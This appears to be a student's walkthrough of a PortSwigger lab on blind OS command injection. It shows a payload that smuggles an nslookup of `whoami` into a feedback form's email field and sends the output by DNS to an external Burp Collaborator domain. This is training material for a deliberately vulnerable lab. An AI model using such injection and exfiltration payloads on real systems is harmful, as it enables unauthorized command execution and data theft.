 # Blind OS command injection with out-of-band data exfiltration

## This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab

___

**HINT:** 
```
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
```

step 1

burp collaborator => `cvb6cin04zkpvrt26wysc9zmkdq4ev2k.oastify.com`
final payload
```
email=||nslookup+`whoami`.cvb6cin04zkpvrt26wysc9zmkdq4ev2k.oastify.com||
```

step 2

click submit feedback form
fill  details and intercept the request then  replace email with payload

![[lab5_0.png]]

![[lab5_1.png]]


step 3

To complete the lab, submit the name of the current user.
`peter-RqLsYQ`

![[lab5_2.png]]
